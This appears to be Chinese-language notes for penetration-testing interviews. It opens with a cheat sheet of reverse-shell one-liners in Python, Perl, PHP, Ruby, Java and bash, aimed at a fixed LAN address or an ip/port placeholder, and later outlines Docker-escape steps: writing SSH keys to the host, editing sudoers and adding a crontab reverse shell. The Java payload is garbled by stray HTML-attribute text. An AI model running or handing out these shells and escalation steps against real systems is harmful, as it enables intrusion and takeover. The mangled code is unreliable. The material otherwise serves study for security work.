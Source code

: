 反弹shell：

```
1、Python版本： python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" 

2、Perl版本： perl -e 'use Socket;$i="192.168.10.13";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'  

3、PHP版本： php -r '$sock=fsockopen("192.168.10.13",8888);exec("/bin/sh -i <&3>&3 2>&3");'  

4、Ruby版本： ruby -rsocket -e'f=TCPSocket.open("192.168.10.13",8888).to_i;exec sprintf("/bin/sh -i <&%d>&%d 2>&%d",f,f,f)'  

5、Java版本： r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.10.13/8888;cat <&5 2="" |="" while="" read="" line;="" do="" \$line="">&5 >&5; done"] as String[]) p.waitFor()
```



```bash
bash -i >& /dev/tcp/ip/port 0>&1
```

### 7.中间人攻击原理讲一下

通过拦截正常的网络通信数据，并进行数据篡改和嗅探，而通信的双方却毫不知情

### 8.实战项目中令你最影响的漏洞

### 9.逻辑漏洞你怎么去找的

### 10.docker未授权访问漏洞了解过吗，讲一下? docker逃逸了解过吗?

1. Docker是以root权限运行的，这是所有姿势的前提

1. Docker在运行一个容器的时候可以将宿主机上的一个目录挂载到容器内的一个目录，我们可以参考redis未授权访问漏洞，将宿主机的/root/.ssh目录挂载到容器上，然后写入公钥。如果有web目录的话，最差也能上一个webshell。

1. 有些服务器不允许root登录，可以写入其他用户的.ssh/目录下（通过查看/etc/ssh/sshd_config目录），然后修改/etc/sudoer中的文件，配置为sudo免密码，切换为root

1. 还可以通过crontab写计划任务反弹shell

   docker逃逸：https://www.freebuf.com/articles/container/242763.html

### 11.struts2的漏洞你了解吗

https://www.freebuf.com/articles/web/320399.html

### 12.weblogic的漏洞你了解吗，讲一下

https://www.freebuf.com/vuls/284799.html
